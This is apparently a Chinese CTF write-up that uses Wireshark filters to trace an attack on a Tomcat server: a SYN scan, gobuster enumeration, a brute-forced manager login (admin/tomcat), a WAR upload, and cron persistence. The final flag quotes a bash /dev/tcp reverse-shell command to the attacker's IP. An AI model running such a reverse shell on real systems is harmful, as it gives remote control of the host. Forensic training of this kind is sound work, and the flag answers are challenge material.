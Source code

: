 ```yaml
---
title: 第六章 流量特征分析-常见攻击事件 tomcat
subtitle:
date: 2025-03-14T14:29:40+08:00
slug: 1008ea3
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 玄机
categories:
  - 玄机
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

```
1、在web服务器上发现的可疑活动,流量分析会显示很多请求,这表明存在恶意的扫描行为,通过分析扫描的行为后提交攻击者IP  flag格式：flag{ip}，如：flag{127.0.0.1}
2、找到攻击者IP后请通过技术手段确定其所在地址 flag格式: flag{城市英文小写}
3、哪一个端口提供对web服务器管理面板的访问？ flag格式：flag{2222}
4、经过前面对攻击者行为的分析后,攻击者运用的工具是？ flag格式：flag{名称}
5、攻击者拿到特定目录的线索后,想要通过暴力破解的方式登录,请通过分析流量找到攻击者登录成功的用户名和密码？ flag格式：flag{root-123}
6、攻击者登录成功后,先要建立反弹shell,请分析流量提交恶意文件的名称？ flag格式：flag{114514.txt}
7、攻击者想要维持提权成功后的登录,请分析流量后提交关键的信息？ flag提示,某种任务里的信息
```

查找恶意扫描，需要确定SYN标志位为 `1`的数据包，确认同一个ip发出大量SYN字段的为攻击者

```
tcp.flags.syn == 1
```

![](images/3255da578c98b68e7c04d1898cd927fa.png)
发现大部分的SYN包来自于`14.0.0.120`
第一问：flag{14.0.0.120}

网站直接查询[IP归属地查询 - 在线工具](https://tool.lu/ip/)
![](images/0e08aabc1a2e6b4917c07c15cfb9cf1a.png)
第二问：flag{guangzhou}

tomacat的默认端口为`8080`，或者过滤查找请求为`200`

```
http contains "200"
```

![](images/42c89dcd79add54ae0098c27d5ea1736.png)
第三问：flag{8080}

过滤ip为`14.0.0.120`的攻击源，并查看`http`报文，过滤GET请求

```
ip.src_host == 14.0.0.120 && http && http.request.method == "GET"
```

![](images/382c9e48b96acab60b9569a8257343ed.png)
第四问：flag{gobuster}

tomcat的管理面板默认路径为`url/manager`

```
ip.src_host == 14.0.0.120 && http.uri contains "/manager"
```

![](images/8269a4fd939d9e9f9a6e952da3c3d7e6.png)
第五问：flag{admin-tomcat}

同上还是这个包，往下翻
![](images/e02482bde4c0e7cb795e940a31339b8c.png)
第六问：flag{JXQOZY.war}

上题题目提到建立了反弹shell，直接过滤

```
ip.src_host == 14.0.0.120 && frame contains "bin/bash"
```

追踪`TCP流`
![](images/d880c73d1c7caa82253985d9d39717ce.png)
攻击者通过`cron -i cron`命令定时反弹shell
第七问：flag{/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'}

